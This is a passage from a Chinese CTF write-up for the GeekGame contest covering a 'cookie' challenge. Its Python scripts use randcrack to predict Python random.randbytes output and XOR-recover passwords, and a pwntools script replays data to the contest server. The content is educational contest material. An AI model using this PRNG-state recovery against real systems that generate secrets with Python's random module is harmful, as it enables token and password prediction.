    如果看到【.】就跳转到【执行命令】喵



程序结束：
    把【💙.*$】替换成【】喵
    谢谢喵
```



#### prob08-cookie 小章鱼的曲奇 [Algorithm]

​		全场最奇异搞笑的题，没有之一。

​	**flag1:**

​		给出了 python randbytes 生成的前 2500 个字节，需要预测接下来的数据。

​		查了一下，使用 randcrack 包可以实现该功能，只需要提交 624 个 32 位整数（2496 字节）即可预测随机数。

```python
from random import Random
from randcrack import RandCrack

rc = RandCrack()

with open("password1.txt", "r") as f:
    password = f.read()

for i in range(624):
    dword = password[i * 8: (i + 1) * 8]
    int32 = dword[6:8]+dword[4:6]+dword[2:4]+dword[0:2]
    int32 = int(int32, 16)
    rc.submit(int32)

stream = password[:624 * 8]
while (len(stream) < len(password)):
    int32 = rc.predict_getrandbits(32)
    int32 = '{:08x}'.format(int32)
    stream += int32[6:8]+int32[4:6]+int32[2:4]+int32[0:2]

print(len(password))

b = []
for i in range(5000, len(password), 2):
    byte = int(password[i:i+2],16) ^ int(stream[i:i+2],16)
    b += [byte]

print(bytes(b))
```

​	**flag2:**

​		发现它把 void1, void2 整体生成了若干个字节，我本来的想法是枚举这个生成的次数，然后预测。

​		结果发现不管提前生成多少都能成功预测，可能是种子与生成的随机数有一种同态的关系（

```python
from random import Random
from randcrack import RandCrack

with open("password2.txt", "r") as f:
    seed1, seed2, praw = f.read().split()

void1 = Random(int(seed1, 16))
void2 = Random(int(seed2, 16))

password = b''
for i in range(0, len(praw), 2):
    password += int(praw[i:i+2], 16).to_bytes(length=1,byteorder='little')

print(password)

gen = []
n = (1 << 22) + 6000

A = void1.randbytes(n)
B = void2.randbytes(n)

C = [x ^ y for x, y in zip(A, B)]

answer = b''

for start in range(0, (1 << 22) + 1, 1):
    if (start % 1000 == 0):
        print("now: ", start)
    rc = RandCrack()
    for p in range(0, 2496, 4):
        ab = int.from_bytes(C[p+start:p+start+4],byteorder='little')
        abc = int.from_bytes(password[p:p+4], byteorder='little')
        rc.submit(ab ^ abc)
    next_ab = int.from_bytes(C[start+2496:start+2500],byteorder='little')
    predict_c = rc.predict_getrandbits(32)
    next_abc = int.from_bytes(password[2496:2500], byteorder='little')
    if next_ab ^ predict_c == next_abc:
        print("found!", start, len(password))
        for i in range(2500, len(password), 4):
            next_ab = int.from_bytes(C[start+i:start+i+4],byteorder='little')
            next_c  = rc.predict_getrandbits(32)
            next_abc = int.from_bytes(password[i:i+4], byteorder='little')
            int32 = next_ab ^ next_c ^ next_abc
            answer += int32.to_bytes(length=4,byteorder='little')
        print(answer)
        exit(0)
```

​	**flag3:**

​		这题更是重量级，观察代码，发现只要把给出的数据在 10 秒内输回去即可。出题人的疏忽让我们直接少做一个题。

```python
from pwn import *

ip = "prob08.geekgame.pku.edu.cn"
port = 10008
token = b"9:How do you know my uid is 9"

r = remote(ip, port)
r.sendline(token)

print(r.recv())
r.sendline(b'3')
s = r.recvuntil('>')
s = s[s.find(b'<')+1:s.find(b'>')]
s = s.replace(b"0x",b'')

r.sendline(s)
r.interactive()
```

#### 总结

~~题出的好！难度适中，覆盖知识点广，题目又着切合实际的背景，解法比较自然。
给出题人点赞 ！~~

总体来讲还是很有意思的，题面有梗，题目难度有梯度，非常适合~~休闲娱乐~~爆肝。

本萌新也是在这里第一次做出 pwn 题~~（享受攻入后台的快感）~~。

明年一定还来！